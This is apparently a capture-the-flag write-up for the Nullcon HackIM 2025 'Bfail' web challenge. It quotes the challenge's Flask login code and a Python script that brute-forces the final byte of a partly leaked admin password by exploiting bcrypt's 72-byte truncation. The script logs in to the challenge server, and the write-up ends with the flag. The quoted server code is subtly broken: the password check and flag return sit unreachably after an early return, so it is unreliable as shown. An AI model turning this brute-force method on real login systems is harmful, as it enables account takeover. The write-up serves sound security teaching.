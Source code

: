 ```yaml
---
title: "Nullcon Goa HackIM 2025 CTF: Bfail"
date: 2025-02-02T11:56:00.487Z
draft: false
author: dajeff
tags: [web]
ctf_id: ctftime-2642
---
```



<link rel="stylesheet" href={css}></link>

> To 'B' secure or to 'b' fail? Strong passwords for admins are always great, right?
>
> Author: @gehaxelt
>
> http://52.59.124.14:5013

The page source hints that we can view the server source code at http://52.59.124.14:5013/source.

```py
from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse

app = Flask(__name__)
app.secret_key = os.urandom(16)
# This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway...
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt())
# >>> strongpw[:71]
# b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
FLAG = open("flag.txt").read();


@app.route('/source')
def source():
    return open(__file__).read()


@app.route('/', methods=["GET"])
def index():
    username = request.form.get("username", None)
    password = request.form.get("password", None)
    if username and password:
        username = urllib.parse.unquote_to_bytes(username)
        password = urllib.parse.unquote_to_bytes(password)
    if username != b"admin":
        return "Wrong user!"
    if len(password) > 128:
        return "Password too long!"
        if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
            return "Wrong password!"
        return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}"""  # Use f-string formatting within the template string
    # ...
```

Our goal is to find a string that hashes to `app.ADMIN_PW_HASH`.

The comment gives 71 bytes of the password, despite saying it gives 70. Giving 71 bytes of the password seems strange, so we'll do some research on the `bcrypt.hashpw` format (e.g. how many bytes the salt takes up, etc) to see how much information 71 bytes really gives us.

After finding the [documentation](https://passlib.readthedocs.io/en/stable/lib/passlib.hash.bcrypt.html#security-issues), it turns out that ``only the first 72 bytes of a password are hashed,'' so we only need to brute force the last (72nd) byte of the effective password to find a string that matches the admin password hash.

```py
import bcrypt
import requests

admin = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
salt = b'$2b$12$8bMrI6D9TMYXeMv8pq8Rje'
for b in range(256):
    password = b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76' + b.to_bytes()
    h = bcrypt.hashpw(password, salt)
    if h == admin:
        break

# password = b"\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76\xaa"

session = requests.Session()
print(session.get("http://52.59.124.14:5013", data={"username": "admin", "password": password}).text)
```

Flag: `ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}`
